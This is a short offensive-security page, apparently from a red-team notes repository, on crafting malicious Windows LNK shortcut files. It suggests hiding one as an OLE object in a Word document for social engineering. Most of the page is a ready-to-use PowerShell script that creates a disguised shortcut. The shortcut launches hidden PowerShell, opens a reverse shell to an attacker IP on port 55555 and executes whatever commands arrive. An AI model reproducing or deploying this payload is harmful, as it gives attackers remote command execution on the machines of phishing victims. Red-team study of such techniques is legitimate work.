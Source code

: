 # LNK
According to Microsoft’s documentation on [MS-SHLLINK]: Shell Link (.LNK) Binary File Format, in this format a structure is called a shell link, or shortcut, and is a data object that contains information that can be used to access another data object.
We can craft LNK files that reference useful target files such as cmd.exe or PowerShell. There is a restriction for 260 symbols in summary for LNK files when standard Windows properties form is used.

A relatively stealthy social engineering attack would be sending a crafted LNK file embedded as an OLE object in a Word Document.

## Create LNK file
With rev-shell via tcp

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("c:\lnk_tests\payload.lnk")
$Shortcut.TargetPath = "%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe"
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"
$Shortcut.Arguments = '-windowstyle hidden /c $sm=(New-Object Net.Sockets.TCPClient("attacker IP",55555)).GetStream();[byte[]]$bt=0..255|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)} '
$Shortcut.Save()
```

## Tools
########
########

```meta
ttp: T1204.002
internal: false
requirements:
results: user, admin
description: LNK (Shell Link file) remotly/localy executing code 
```
